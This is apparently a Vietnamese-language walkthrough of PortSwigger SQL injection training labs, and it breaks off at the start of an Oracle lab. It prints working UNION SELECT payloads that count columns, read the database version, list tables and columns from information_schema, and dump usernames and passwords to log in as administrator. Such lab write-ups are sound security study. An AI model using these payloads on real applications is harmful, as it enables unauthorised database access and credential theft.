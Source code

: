 ``` ' UNION SELECT null, 'a'-- ```
> To solve the lab, display the database version string.
- Cách giải:
- Tương tự như bài trước, ở lab này mình sẽ phải lấy database version của MySQL và Microsoft.
- Vì vậy truy vấn sẽ khác với Oracle.
- Trong MySQL Comment là: ```-- comment``` tức là sau ```--``` phải có 1 khoảng trắng.
Mà nếu để khoảng trắng ở cuối trên url thì nó sẽ bị bỏ mất nên sau dấu cách đó mình phải thêm 1 ký tự gì cũng được.
- Đầu tiên mình sẽ xác định số cột:
```' UNION SELECT null, null-- a```

![](21.png)
- Sau đó đựa vào Database version trong [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) => thay null thành @@version để lấy database version là hoàn thành bài lab.
```' UNION SELECT @@version, null-- a```

![](22.png)

# Lab-07: SQL injection attack, listing the database contents on non-Oracle databases
> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the administrator user.
### Cách giải:
- Đầu tiên kiểm tra số cột => 2 cột 
```
' UNION SELECT null, null--
```
- Tiếp theo mình phải đi tìm tên của table.
- Trong sql database luôn có 1 bảng là INFORMATION_SCHEMA ( trừ oracle ) chứa các thông tin của cơ sở dữ liệu
- Dựa vào đó mình tìm ra các bảng trong database:
``` ' UNION SELECT TABLE_NAME, NULL FROM INFORMATION_SCHEMA.TABLES-- -```
![](23.png)

- Sau khi đọc tài liệu về [Schemas](https://www.postgresql.org/docs/8.1/ddl-schemas.html#DDL-SCHEMAS-PUBLIC) ở phần 5.7.2. The Public Schema thì mình đã thử truy vấn table "public"
![](24.png)

```'UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema='public'--```
![](25.png)
- Tìm được 2 table khác và thứ mình cần là username và password nên mình tiếp túc tìm cột với bảng ```users_yemgnv```:
``` 'UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users_yemgnv'--```
![](26.png)
- Tiếp túc với 2 cột này và tìm được account:
``` 'UNION SELECT password_djkvqr, username_ztbkvp FROM users_yemgnv--```
![](27.png)
- Đăng nhập để hoàn thành lab.
# Lab-08: SQL injection attack, listing the database contents on Oracle
> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.
### Cách giải:
- Đề bài lab này tương tự lab-07, tuy nhiên database lại là Oracle.
- Kết hợp với kiến thức từ những lab trước khi làm việc với Oracle và gợi ý từ [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
```